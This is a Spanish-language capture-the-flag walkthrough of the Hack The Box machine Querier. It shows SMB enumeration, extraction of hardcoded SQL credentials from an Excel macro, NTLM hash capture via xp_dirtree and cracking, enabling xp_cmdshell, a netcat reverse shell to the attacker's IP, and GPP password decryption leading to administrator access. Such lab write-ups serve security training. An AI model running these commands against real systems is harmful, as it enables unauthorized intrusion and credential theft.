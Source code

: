10.10.10.125 - Querier
----------------------

Puertos abiertos 135(rpc),139,445(smb),1433,5985. Nmap nos dice que:
- 1433 -> puerto Microsoft SQL . Nombre del sistema QUERIER, Dominio HTB.LOCAL
- Rpc sin credenciales ```rpcclient -U "" 10.10.10.125 -N``` -> Acceso denegado


SMB 
```console
└─$ smbmap -H 10.10.10.125 -u "test"
	Reports                        READ ONLY
└─$ smbclient "//10.10.10.125/Reports" -N
smb: \> dir
Currency Volume Report.xlsm         A    12229  Sun Jan 27 23:21:34 2019
smb: \> get "Currency Volume Report.xlsm"

Un archivo xlsm es un archivo de hojas de texto (el excel de toda la vida), que e abre con libreoffice.
Abrimos la hoja de calculo pero aparte de ques está vacía dice que tiene macros (código)

Las macros se leen con una herramienta llamada olevba ```sudo -H pip install -U oletools[full]```

```console
└─$ olevba "Currency Volume Report.xlsm"
Private Sub Connect()
Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset
Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;
Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10; conn.Open

If conn.State = adStateOpen Then
  MsgBox "connection successful" 
  Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close
End If
```

Según esto se está conectando a una base de datos sql ("volume") con las creds "reporting:PcwTWTHRwryjc$c6"
para meter esos datos en la hoja de calculo.

Como son creds de una base de datos, podemos usarlas nosotros tambien ya que tenemos un puerto que usa windowssql
```console
└─$ /usr/bin/impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1
# No, tenemos permiso así que no hay comandos, pero a lo mejor podemos capturar un hash

SQL> xp_dirtree "\\10.10.14.12\carpeta"

└─$ /usr/bin/impacket-smbserver carpeta $(pwd) -smb2support
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b5d17ef4aa88056ad273977e56a155fc:010100000000000080407d3ce8f9d8016f28bccc5409518100000000010010006f006100710055006900550049004900030010006f0061007100550069005500490049000200100058005a005000540078005500610057000400100058005a005000540078005500610057000700080080407d3ce8f9d801060004000200000008003000300000000000000000000000003000009b175c468e21ef38d90e68aba21eadedb3bfaec84eab5a5cf439e8d79e35d69e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003200000000000000000000000000

└─$ john hash -w=/usr/share/wordlists/rockyou.txt
corporate568     (mssql-svc)

└─$ /usr/bin/impacket-mssqlclient mssql-svc:'corporate568'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1; reconfigure
SQL> sp_configure "xp_cmdshell",1; reconfigure
SQL> xp_cmdshell "whoami"
querier\mssql-svc
```
Como ya tengo ejecución remota de comandos, lo más comodo es traerse un binario nc.exe a donde se está ofreciendo
la carpeta por smb para subirlo/ejecutarlo en la máquina víctima.

```console
SQL> xp_cmdshell \\10.10.14.12\carpeta\nc.exe -e cmd.exe 10.10.14.12 443
└─$ rlwrap nc -lnvp 443
C:\Windows\system32>
C:\Users\mssql-svc\Desktop> copy \\10.10.14.12\carpeta\enumeracion_windows.bat
```
El script nos encontró una ruta groups.xml:
(C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml). Ahí había una clave cpassword que se rompe con ggp-decrypt:
```console
└─$ gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!

└─$ impacket-wmiexec 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

C:\>whoami
querier\administrator

